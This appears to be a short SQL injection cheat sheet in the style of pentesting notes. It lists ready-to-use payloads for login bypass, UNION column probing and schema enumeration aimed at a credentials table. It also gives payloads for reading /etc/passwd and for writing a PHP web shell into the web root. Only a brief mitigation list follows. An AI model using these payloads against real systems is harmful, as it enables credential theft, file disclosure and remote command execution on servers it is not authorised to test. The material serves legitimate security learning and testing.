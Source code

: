 SQL Injection
---

## Basic Injection

`admin' or 1=1; --`

`admin' or 1=1; #`

## Union

Union combines results from multiple results, but they need to have the same number of columns and data types

We can detect the number of columns using `ORDER BY`. Keep increasing the number until you get an error `Unknown column <n> in 'order caluse'`

`' order by 1-- -`

Then we can use the correct number of columns in the attack

`SELECT * from products where product_id = '1' UNION SELECT 1, username, 3 from passwords`

## Database Enumeration

1. Get the list of databases
2. Get the list of tables
3. List the columns within the tables

`admin' UNION SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;`

`admin' UNION select TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -`

`admin' UNION select COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -`

If you only have one column to work with, you can use `group_concat`

`admin' UNION select group_concat(COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA) from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -`

## Reading Files 

`admin' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -`

## Writing Files

`admin' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -`

`admin' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -`

## Mitigation

1. Santize your inputs
2. Validate your inputs
3. Set correct user privileges
4. WAF to filter bad requests
5. Parameterize queries
